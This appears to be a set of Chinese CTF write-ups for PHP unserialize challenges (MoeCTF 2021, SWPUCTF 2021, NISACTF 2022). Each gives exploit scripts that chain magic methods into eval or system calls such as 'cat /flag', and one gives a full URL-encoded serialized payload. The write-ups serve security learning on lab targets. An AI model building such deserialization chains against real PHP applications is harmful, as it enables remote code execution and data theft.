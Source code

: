 ﻿[MoeCTF 2021]unserialize

![](Aspose.Words.aa48aca4-b22b-4089-9343-5c721280bb5d.001.png)

直接写exp：

<?php

class entrance

{

`    `public $start;


`    `function \_\_destruct()

`    `{

`        `$this->start->helloworld();

`    `}

}

class springboard

{

`    `public $middle;

`    `function \_\_call($name, $arguments)

`    `{

`        `echo $this->middle->hs;

`    `}

}

class evil

{

`    `public $end;

`    `function \_\_construct($end)

`    `{

`        `$this->end = $end;

`    `}

`    `function \_\_get($Attribute)

`    `{

`        `eval($this->end);

`    `}

}

$o = new entrance;

$o->start = new springboard;

$o->start->middle = new evil("system('cat /flag');");

echo serialize($o);

得到flag


[SWPUCTF 2021 新生赛]pop

![](Aspose.Words.aa48aca4-b22b-4089-9343-5c721280bb5d.002.png)

发现是反序列化链

发现w22m中有$w00m 是入口

Exp

<?php

class w44m{

`    `private $admin = 'w44m';

`    `protected $passwd = '08067';

}

class w22m{

`    `public $w00m;

}

class w33m{

`    `public $w00m;

`    `public $w22m;

}

\# w22m.\_\_destruct().w00m->w33m.\_\_toString().w00m->w44m.Getflag()

$a = new w22m();

$b = new w33m();

$c = new w44m();

\# 入口

$a->w00m=$b;

\# 链子

$b->w00m=$c;

$b->w22m='Getflag';

echo urlencode(serialize($a));

?>

得出url后的

O%3A4%3A%22w22m%22%3A1%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w33m%22%3A2%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w44m%22%3A2%3A%7Bs%3A11%3A%22%00w44m%00admin%22%3Bs%3A4%3A%22w44m%22%3Bs%3A9%3A%22%00%2A%00passwd%22%3Bs%3A5%3A%2208067%22%3B%7Ds%3A4%3A%22w22m%22%3Bs%3A7%3A%22Getflag%22%3B%7D%7D

Get一下拿到flag


[NISACTF 2022]babyserialize

Exp:

<?php

class NISA{

`    `public $fun;

`    `public $txw4ever='System("cat /fllllllaaag");';

`    `public function \_\_wakeup()

`    `{

`        `if($this->fun=="show\_me\_flag"){

`            `hint();

`        `}

`    `}

`    `function \_\_call($from,$val){

`        `$this->fun=$val[0];

`    `}

`    `public function \_\_toString()

`    `{

`        `echo $this->fun;

`        `return " ";

`    `}

`    `public function \_\_invoke()

`    `{

`        `checkcheck($this->txw4ever);

`        `@eval($this->txw4ever);

`    `}

}

class TianXiWei{

`    `public $ext;

`    `public $x;

`    `public function \_\_wakeup()

`    `{

`        `$this->ext->nisa($this->x);

`    `}

}

class Ilovetxw{

`    `public $huang;

`    `public $su;

`    `public function \_\_call($fun1,$arg){

`        `$this->huang->fun=$arg[0];

`    `}

`    `public function \_\_toString(){

`        `$bb = $this->su;

`        `return $bb();

`    `}

}


class four{

`    `public $a="TXW4EVER";

`    `private $fun='abc';

`    `public function \_\_set($name, $value)

`    `{

`        `$this->$name=$value;

`        `if ($this->fun = "sixsixsix"){

`            `strtolower($this->a);

`        `}

`    `}

}

$t=new TianXiWei();

$t->ext=new Ilovetxw();

$t->ext->huang=new four();

$t->ext->huang->a=new Ilovetxw();

$t->ext->huang->a->su=new NiSA();

echo urlencode(serialize($t));


